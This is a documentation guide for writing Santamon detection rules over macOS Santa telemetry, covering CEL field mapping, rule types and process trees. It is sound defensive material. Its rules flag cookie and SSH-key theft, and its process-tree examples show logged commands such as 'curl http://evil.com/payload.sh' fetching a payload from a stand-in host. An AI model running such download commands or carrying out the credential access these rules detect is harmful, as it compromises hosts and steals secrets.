

# Santamon Detection Rules Guide

This guide explains how to write effective detection rules for Santamon:
how Santa telemetry is mapped into CEL, how to verify field names, and
how to structure simple, correlation, and baseline rules.

## Table of Contents

- [CEL Engine Overview](#cel-engine-overview)
- [Verifying Fields](#verifying-fields)
- [Protobuf to CEL Mapping](#protobuf-to-cel-mapping)
- [Rule Types](#rule-types)
- [Rule Organization](#rule-organization)
- [Signal Context Controls](#signal-context-controls)
- [Process Trees](#process-trees)
- [Field Access Patterns](#field-access-patterns)
- [Common Patterns](#common-patterns)
- [Best Practices](#best-practices)
- [Troubleshooting](#troubleshooting)
- [Field Reference](#field-reference)

## CEL Engine Overview

Santamon uses [CEL](https://github.com/google/cel-spec) for rule evaluation.
The evaluation pipeline is:

1. Santa protobuf `SantaMessage` → JSON using `protojson.Marshal`
2. JSON → `map[string]any` for CEL
3. Santamon adds a few top‑level metadata fields
4. CEL expressions are evaluated against this map

**Important:** even with `EmitUnpopulated: true`, optional nested structs may
exist but their fields can be empty/zero. You can still safely access nested
fields; just be mindful that values may be empty.

## Verifying Fields

Field name correctness is critical: a single typo means a rule will never match.

1. **Inspect real Santa events**

   Santamon reads Santa’s protobuf spool from `/var/db/santa/spool/new/`.
   You can inspect these events directly with `santactl`:

   ```bash
   # Show the first events from a spool file
   sudo santactl printlog /var/db/santa/spool/new/<file> | head -200
   ```

   The field names you see in this output correspond directly to the fields
   available in CEL, using proto `snake_case`.

2. **Cross‑check against the Santa telemetry `.proto`**

   When in doubt about a nested field or enum value (e.g.
   `launch_item.item_type`, `tcc_modification.authorization_right`), consult
   the official Santa telemetry protobufs. Santamon uses the same schema
   (`UseProtoNames: true`), so the proto is the source of truth.

3. **Validate rules before deploying**

   Always run:

   ```bash
   santamon rules validate --config /etc/santamon/config.yaml
   ```

   This compiles all CEL expressions and catches syntax / type errors early.

## Protobuf to CEL Mapping

### Top-Level Fields

Every event has these top‑level fields available in CEL:

```cel
machine_id              # string - Host identifier
boot_session_uuid       # string - Boot session UUID
kind                    # string - Event type: "execution", "file_access", etc.
event_time              # timestamp - When event occurred
processed_time          # timestamp - When Santa processed event
```

### Event Blocks

Events are nested under their type. Only one event type will be present per
message:

```cel
execution               # Execution event data          (kind == "execution")
file_access             # File access event data        (kind == "file_access")
disk                    # Disk event data              (kind == "disk")
launch_item             # Launch item event data       (kind == "launch_item")
tcc_modification        # TCC modification data        (kind == "tcc_modification")
xprotect                # XProtect detection data      (kind == "xprotect")
```

Santamon also supports other telemetry event kinds (e.g. `allowlist`,
`bundle`, `login_logout`, `login_window_session`, `screen_sharing`,
`open_ssh`, `authentication`) via the `kind` field; those are available to
rules even if the default ruleset doesn’t use them yet.

### Direct Proto Field Access

Santamon exposes the Santa protobuf structure as‑is:

- `UseProtoNames: true` → field names stay in `snake_case`
- `EmitUnpopulated: true` → parent messages are present even when empty

This means you can access nested fields directly, e.g.:

```cel
file_access.instigator.executable.path
tcc_modification.service
launch_item.item_path
```

Always gate on `kind` so you’re working with the correct event type.

## Rule Types

### 1. Simple Rules

Immediate detection based on a single event:

```yaml
rules:
  - id: RULE-001
    title: "Unsigned execution from tmp"
    description: "Detects unsigned binaries executed from /tmp"
    expr: |
      kind == "execution" &&
      execution.decision == "DECISION_ALLOW" &&
      execution.target.executable.path.startsWith("/tmp/") &&
      (
        execution.target.code_signature == null ||
        !has(execution.target.code_signature.team_id) ||
        execution.target.code_signature.team_id == ""
      )
    severity: high
    tags: ["T1204.002", "execution", "unsigned"]
    enabled: true
```

### 2. Correlation Rules

Detect patterns across multiple events within a time window:

```yaml
correlations:
  - id: CORR-001
    title: "Repeated blocked executions"
    expr: kind == "execution" && execution.decision == "DECISION_DENY"
    window: "5m"               # Time window
    group_by:                  # Grouping keys
      - "execution.target.executable.hash.hash"
      - "execution.instigator.effective_user.name"
    threshold: 3               # Alert after 3 events
    severity: medium
    tags: ["bruteforce", "persistence"]
    enabled: true
```

### 3. Baseline Rules

Alert on first occurrence of a specific pattern:

```yaml
baselines:
  - id: BASE-001
    title: "First-time TCC modification for app"
    expr: kind == "tcc_modification"
    track:
      - "tcc_modification.identity"
      - "tcc_modification.service"
    learning_period: "720h"    # Suppress alerts for 30 days
    severity: medium
    tags: ["T1548.006", "privacy", "baseline"]
    enabled: true
```

## Rule Organization

### Single File

Traditional approach - all rules in `/etc/santamon/rules.yaml`:

```yaml
rules:
  - id: SM-001
    title: "Unauthorized browser cookie access"
    # ...

  - id: SM-002
    title: "SSH private key access"
    # ...

correlations:
  - id: SM-COR-001
    title: "Multiple credential access"
    # ...

baselines:
  - id: SM-BASE-001
    title: "First-seen unsigned binary"
    # ...
```

### Multi-File Organization

For larger rule sets or collaborative development, organize rules across multiple files:

**Directory structure:**
```
/etc/santamon/rules/
├── credential-access/
│   ├── SM-001-browser-cookies.yaml
│   ├── SM-002-ssh-keys.yaml
│   └── SM-011-dscl-authonly.yaml
├── persistence/
│   ├── SM-006-user-launch-agent.yaml
│   ├── SM-007-launch-daemon.yaml
│   └── SM-010-launchctl.yaml
├── execution/
│   ├── SM-008-unsigned-downloads.yaml
│   └── SM-009-chrome-scripting.yaml
├── correlations/
│   └── SM-COR-001-credential-stores.yaml
└── baselines/
    ├── SM-BASE-001-unsigned-first-seen.yaml
    └── SM-BASE-002-binary-hash-change.yaml
```

**Individual rule file** (`credential-access/SM-001-browser-cookies.yaml`):
```yaml
rules:
  - id: SM-001
    title: "Unauthorized browser cookie access"
    description: "Non-Browser processes accessing Chrome/Comet Cookies DB."
    expr: |
      kind == "file_access" &&
      file_access.policy_name in ["ChromeCookies","CometCookies"] &&
      file_access.policy_decision != "POLICY_DECISION_ALLOWED_AUDIT_ONLY"
    severity: critical
    tags: ["T1539", "credential-access"]
    enabled: true
```

**Configuration:**
```yaml
# In /etc/santamon/config.yaml
rules:
  path: "/etc/santamon/rules"  # Directory instead of file
```

**Validation:**
Santamon automatically detects file vs directory and validates all rules:

```bash
santamon rules validate
# Validates all .yaml/.yml files recursively
# Checks for duplicate rule IDs across all files
```

**Error handling:**
If multiple files contain the same rule ID, validation fails with:
```
duplicate rule ID SM-001: found in both
  /etc/santamon/rules/credential-access/SM-001.yaml and
  /etc/santamon/rules/persistence/SM-001.yaml
```

## Signal Context Controls

Santamon automatically adds core metadata (actor path, target path/hash,
decision, kind) to every signal. You can request more detail per rule:

- `extra_context`: list of dotted field names (e.g. `execution.args`, `file_access.instigator.effective_user.name`). The value is added to the signal context as a string (except `execution.args`, which keeps the full argument list).
- `include_event`: attach the entire Santa event map to `context["event"]` for full-fidelity triage. This increases payload size.
- `include_process_tree`: for execution rules, attach a `process_tree` array built from recent `Execution` events. See the dedicated section below for details.

## Process Trees

Santamon tracks process execution history to provide full process ancestry (process tree) context in signals. This helps with investigation and understanding attack chains.



### Enabling Process Trees

Add `include_process_tree: true` to any execution rule to include the full process lineage:

```yaml
rules:
  - id: SM-014
    title: "Non-interactive curl/wget execution"
    expr: |
      kind == "execution" &&
      execution.target.executable.path in ["/usr/bin/curl", "/usr/bin/wget"]
    include_process_tree: true
    severity: medium
    tags: ["T1105", "command-and-control"]
    enabled: true
```

### Process Tree Structure

When `include_process_tree: true`, the signal's `context` will contain a `process_tree` array with ancestor processes ordered from newest (target) to oldest (init):

```json
{
  "process_tree": [
    {
      "depth": 0,
      "relation": "target",
      "pid": 12345,
      "pidversion": 1,
      "path": "/usr/bin/curl",
      "user": "user1",
      "uid": 501,
      "group": "staff",
      "gid": 20,
      "session_id": 100,
      "start_time": "2025-01-15T10:30:00Z",
      "args": ["curl", "http://example.com/malware.sh"]
    },
    {
      "depth": 1,
      "relation": "parent",
      "pid": 12344,
      "pidversion": 1,
      "path": "/usr/bin/python3",
      "user": "user1",
      "uid": 501,
      "args": ["python3", "script.py"]
    },
    {
      "depth": 2,
      "relation": "ancestor",
      "pid": 12343,
      "pidversion": 1,
      "path": "/bin/bash",
      "user": "user1",
      "uid": 501
    }
  ]
}
```

### Field Descriptions

- **depth**: Distance from target process
  - `0` = target process (the process that triggered the rule)
  - `1` = direct parent process
  - `2+` = ancestor processes (grandparent and beyond)

- **relation**: Process relationship
  - `"target"` = the process that matched the detection rule
  - `"parent"` = direct parent process
  - `"ancestor"` = grandparent and earlier generations

- **Process fields** (when available):
  - `pid`, `pidversion` - Process identifiers
  - `path` - Full executable path
  - `user`, `uid` - User information
  - `group`, `gid` - Group information
  - `session_id` - Session identifier
  - `start_time` - Process start timestamp (ISO 8601)
  - `args` - Command-line arguments (array)

### Configuration and Limits

Process lineage tracking uses an in-memory cache with the following characteristics:

- **TTL**: Process entries are cached for **1 hour** (default)
- **Max entries**: 50,000 processes (LRU eviction when limit reached)
- **Max depth**: 8 levels of ancestors (configurable, default: 8)
- **Boot session aware**: Process trees are isolated per boot session (no cross-boot ancestry)

### Best-Effort Nature

Process trees are **best-effort** and may be incomplete:

- **Parent not in cache**: If a parent process executed before the agent started or outside the TTL window, the tree will stop at that point
- **Cache eviction**: If the cache reaches capacity, oldest entries are evicted (LRU)
- **Short-lived processes**: Very short-lived parent processes might not be captured

Despite these limitations, process trees provide valuable context for most detections, especially for understanding execution chains within the TTL window.

### Example Use Case

**Detection: curl downloading from suspicious domain**

Without process tree:
```
curl downloaded from http://evil.com/payload.sh
```

With process tree:
```
bash script.sh → python3 wrapper.py → curl http://evil.com/payload.sh
```

The process tree immediately reveals this was scripted behavior, not direct user interaction, providing critical investigation context.

## Field Access Patterns

### Guard on `kind`

```cel
# ✅ GOOD
kind == "execution" && execution.decision == "DECISION_ALLOW"

# ❌ BAD - will error on non-execution events
execution.decision == "DECISION_ALLOW"
```

### Optional Parents

```cel
# Check if code signature block exists
kind == "execution" &&
execution.target.code_signature == null
```

### Execution Examples

```cel
# Target executable path under /Users
kind == "execution" &&
execution.target.executable.path.startsWith("/Users/")

# Unsigned or ad-hoc signed target
kind == "execution" &&
(
  execution.target.code_signature == null ||
  !has(execution.target.code_signature.team_id) ||
  execution.target.code_signature.team_id == ""
)
```

### FileAccess Examples

```cel
# Chrome cookies access
kind == "file_access" &&
file_access.policy_name == "ChromeCookies"

# SSH key access by non-ssh process
kind == "file_access" &&
file_access.policy_name in ["SSHKeys", "SSHPrivateKeys"] &&
!file_access.instigator.executable.path.startsWith("/usr/bin/ssh")
```

### TCCModification Examples

```cel
# FDA granted without user consent
kind == "tcc_modification" &&
tcc_modification.service == "kTCCServiceSystemPolicyAllFiles" &&
tcc_modification.authorization_right == "AUTHORIZATION_RIGHT_ALLOW" &&
tcc_modification.authorization_reason != "AUTHORIZATION_REASON_USER_CONSENT"
```

### LaunchItem Examples

```cel
# User LaunchAgent from user-writable path
kind == "launch_item" &&
launch_item.item_type == "ITEM_TYPE_AGENT" &&
launch_item.action == "ACTION_ADD" &&
launch_item.legacy == true &&
launch_item.item_path.startsWith("/Users/")
```

## Common Patterns

### Unsigned Binary from User Paths

```cel
kind == "execution" &&
execution.decision == "DECISION_ALLOW" &&
execution.target.executable.path.matches("^/Users/.*/(Downloads|Desktop|Documents)/.*") &&
(
  execution.target.code_signature == null ||
  !has(execution.target.code_signature.team_id) ||
  execution.target.code_signature.team_id == ""
)
```

### Office or Browser Spawning Interpreters

```cel
# Office spawning scripting interpreter
kind == "execution" &&
execution.target.executable.path in [
  "/usr/bin/osascript", "/bin/bash", "/bin/sh",
  "/usr/bin/python3", "/usr/bin/perl", "/usr/bin/ruby",
] &&
execution.instigator.executable.path.contains("Microsoft")
```

### Pattern Matching

```cel
kind == "execution" &&
execution.target.executable.path.matches("^/Users/.*/Downloads/.*\\.dmg$")
```

## Best Practices

1. **Always check `kind` first**  
   Avoid accessing `execution.*` on non-execution events.

2. **Use direct proto field names**  
   Keep to the upstream field names in `snake_case`.

3. **Validate frequently**  
   Run `santamon rules validate` after editing `rules.yaml`.

4. **Document complex logic**  
   Use `description` and inline comments for non-obvious rules.

## Troubleshooting

### Rule Doesn’t Match

1. `santamon rules validate` – confirm syntax and types.  
2. Check `kind` – ensure you’re gating on the correct event type.  
3. Inspect real events with `santactl printlog` – confirm field names and values.  
4. Start simple and add conditions incrementally.

### “no such key” or similar errors

These typically come from referencing the wrong field or enum. Confirm field
names against Santa’s proto and real events; correct the expression and
re‑validate.

## Field Reference

The complete, authoritative field list lives in the Santa telemetry protobufs.
Santamon exposes those fields directly to CEL using the same names
(`snake_case`), plus the small set of extra top‑level fields described above.

For concrete rule examples using Execution, FileAccess, TCCModification,
XProtect, LaunchItem, and Disk events, see:

- `configs/rules.yaml`
